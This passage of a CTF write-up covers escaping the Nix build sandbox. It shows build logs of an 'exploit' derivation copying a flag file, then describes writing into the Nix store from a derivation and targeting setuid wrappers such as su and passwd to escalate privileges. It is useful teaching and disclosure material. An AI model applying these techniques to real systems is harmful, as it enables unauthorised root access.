 As expected, building the derivation copies the flag to `/tmp/flag`:

```hl_lines=20
[user@nixos:~]$ nix build .#exploit
warning: Option 'accept-flake-config' is too dangerous, skipping.
warning: Option 'allow-new-privileges' is too dangerous, skipping.
warning: Option 'build-hook' is too dangerous, skipping.
warning: Option 'post-build-hook' is too dangerous, skipping.
warning: Option 'pre-build-hook' is too dangerous, skipping.
error: builder for '/nix/store/5d6hd01q1pv41r8025b9q8pbhyqj1fvn-exploit.drv' failed with exit code 1;
       last 8 log lines:
       > Running phase: installPhase
       > /nix/store/xi6d4pi139cxvmx0hmv46m6gr4wvxzg8-exploit-inner
       > checking outputs of '/nix/store/9z1sjss8m2scwws4d7wwwjzis3hgg8xi-exploit-inner.drv'...
       > Running phase: installPhase
       > 1+0 records in
       > 1+0 records out
       > 16 bytes copied, 0.000148997 s, 107 kB/s
       > error: derivation '/nix/store/9z1sjss8m2scwws4d7wwwjzis3hgg8xi-exploit-inner.drv' may not be deterministic: output '/nix/store/xi6d4pi139cxvmx0hmv46m6gr4wvxzg8-exploit-inner' differs from '/nix/store/xi6d4pi139cxvmx0hmv46m6gr4wvxzg8-exploit-inner.check'
       For full logs, run 'nix log /nix/store/5d6hd01q1pv41r8025b9q8pbhyqj1fvn-exploit.drv'.

[user@nixos:~]$ cat /tmp/flag
kalmar{faker_flag}
```

### Abusing Read-Write Access to the Nix Store

This second strategy was pretty much what I wanted to do during the CTF,
but didn't manage to.
However, with more time, a fresh mind, and the assurance that it actually
works, I tried to simply write to a file in the Nix store from inside
the derivation and it actually works!
One small caveat is that you must be able to reference the file from
your derivation, so that it is included in the sandbox, but that is no problem
for the various packages in nixpkgs.

My first instinct with this new ability was to override the `nix.conf` configuration
and add `/data` to the sandbox, just like mentioned previously.
However, this does not work since _someone_ would have to restart `nix-daemon`,
and the only user with the permissions to do so would be `root`.

Another prime target for modifications is any kind of setuid binaries, such as
`sudo`.
While `sudo` has been disabled in this system, many other setuid binaries are still
available, as we can see by taking a look at the [`/run/wrappers/bin` directory][setuid-wrappers].

```
[root@nixos:~]# ls -la /run/wrappers/bin/
total 832
drwxr-xr-x 2 root root         300 Mar 18 19:31 .
drwxr-xr-x 3 root root          80 Mar 18 19:31 ..
-r-s--x--x 1 root root       63472 Mar 18 19:31 chsh
-r-sr-x--- 1 root messagebus 63472 Mar 18 19:31 dbus-daemon-launch-helper
-r-s--x--x 1 root root       63472 Mar 18 19:31 fusermount
-r-s--x--x 1 root root       63472 Mar 18 19:31 fusermount3
-r-s--x--x 1 root root       63472 Mar 18 19:31 mount
-r-s--x--x 1 root root       63472 Mar 18 19:31 newgidmap
-r-s--x--x 1 root root       63472 Mar 18 19:31 newgrp
-r-s--x--x 1 root root       63472 Mar 18 19:31 newuidmap
-r-s--x--x 1 root root       63472 Mar 18 19:31 passwd
-r-s--x--x 1 root root       63472 Mar 18 19:31 sg
-r-s--x--x 1 root root       63472 Mar 18 19:31 su
-r-s--x--x 1 root root       63472 Mar 18 19:31 umount
```